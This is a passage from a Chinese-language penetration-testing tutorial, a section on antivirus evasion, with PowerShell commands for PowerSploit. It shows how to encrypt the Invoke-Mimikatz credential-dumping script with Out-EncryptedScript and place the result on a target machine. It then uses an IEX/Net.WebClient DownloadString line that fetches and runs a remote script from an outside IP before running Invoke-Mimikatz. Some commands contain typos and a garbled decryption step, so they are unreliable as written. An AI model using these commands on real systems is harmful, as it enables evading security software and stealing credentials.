 #### 6.3 免杀处理

Powersploit中提供的很多工具都是做过加密处理的，同时也提供了一些用来加密处理的脚本，Out-EncryptedScript就是其中之一。

首先在本地对Invoke-Mimikatz.ps1进行加密处理：

Copy

`poweshell.exe Import-Module .\Out-EncryptedScript.ps1 poweshell.exe Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password 密码 -Salt 随机数 #默认生成的文件是evil.ps1  -Password   设置加密的密钥 -Salt       随机数，防止被暴力破解`

将加密生成的evil.sp1脚本放在目标机上，执行如下命令：

Copy

`#远程加载解密脚本 poweshell.exe  IEX(New-Object Net.WebClient).DownloadString("http://1.1.1.32/PowerSploit/ScriptModification/Out-EncryptedScript.ps1")  [String] $cmd = Get-Content .\evil.ps1 Invoke-Expression $cmd $decrypted = de password salt Invoke-Expression $decrypted Invoke-Mimikatz`

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200328204245945-1849115138.png)